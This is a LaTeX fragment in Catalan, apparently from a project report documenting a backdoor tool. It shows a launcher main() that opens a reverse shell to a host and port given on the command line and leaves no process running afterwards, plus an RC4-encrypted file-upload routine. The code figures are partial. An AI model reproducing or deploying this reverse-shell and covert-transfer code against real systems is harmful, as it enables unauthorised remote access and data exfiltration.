 \begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYaJ[int] @PYaL[main](@PYaJ[int] argc, @PYaJ[char] @PYbe[*]@PYbe[*]argv) {
    @PYaE[// Command mode]
    @PYay[if] (argc @PYbe[=]@PYbe[=] @PYag[3]){
        @PYaJ[unsigned] @PYaJ[short] port @PYbe[=] atoi(argv@PYZlb[]@PYag[2]@PYZrb[]);
        @PYaJ[unsigned] @PYaJ[long] ip;
        @PYaJ[char] ipname@PYZlb[]@PYag[64]@PYZrb[];
        @PYaJ[int] sock;
        debug(@PYaB["]@PYaB[Iniciant reverse tty]@PYao[\n]@PYaB["]);
        ip @PYbe[=] resolve(argv@PYZlb[]@PYag[1]@PYZrb[], ipname);
        @PYay[if] (ip @PYbe[=]@PYbe[=] INADDR_NONE) {
            perror(argv@PYZlb[]@PYag[1]@PYZrb[]);
            @PYay[return] @PYag[1];
        }

        debug(@PYaB["]@PYaB[Connecting to %s:%d]@PYao[\n]@PYaB["],ipname,port);
        @PYay[if] ((sock @PYbe[=] launcher_rcon(ip, port))) {
            launcher_shell(sock, sock);
            close(sock);
        }
\end{Verbatim}
\caption{launcher.c::main()}
\label{fig:launcher_main}
\end{figure}

A més, aquesta funcionalitat tracta de no deixar cap procés en execució un cop portada a terme l'acció.

\subsection{Transferència de fitxers}

Per a transferir fitxers entre client i servidor, es segueix gairebé el mateix procediment, independentment de si és un enviament o una recepció. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
    rc4_init((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])KEY, @PYay[sizeof](KEY), @PYbe[&]rc4_crypt);

    @PYay[if] ((fd @PYbe[=] open(file, O_RDONLY)) @PYbe[>=] @PYag[0]) {
        size @PYbe[=] lseek(fd, @PYag[0], SEEK_END);
        lseek(fd, @PYag[0], SEEK_SET);
        bytes @PYbe[=] @PYag[0];
        transfered @PYbe[=] @PYag[0];
        printf(@PYaB["]@PYaB[Size: %lu bytes]@PYao[\n]@PYaB["], size);
        @PYay[while] ((bytes @PYbe[=] read(fd, buf, BUFSIZE)) @PYbe[>] @PYag[0]) {
            rc4(buf, bytes, @PYbe[&]rc4_crypt);
            printf(@PYaB["]@PYao[\r]@PYaB[Uploaded: %lu%%]@PYaB["], (transfered@PYbe[/](@PYag[1]@PYbe[+](size@PYbe[/]@PYag[100]))));
        }
        printf(@PYaB["]@PYao[\r]@PYaB[Uploaded: 100%%]@PYao[\n]@PYaB["]);
        printf(@PYaB["]@PYaB[Fitxer %s enviat!]@PYao[\n]@PYaB["], file);
        sleep(@PYag[2]);
    }
\end{Verbatim}
    \caption{client.c::client\_upload()}
    \label{fig:client_client_upload}
\end{figure}

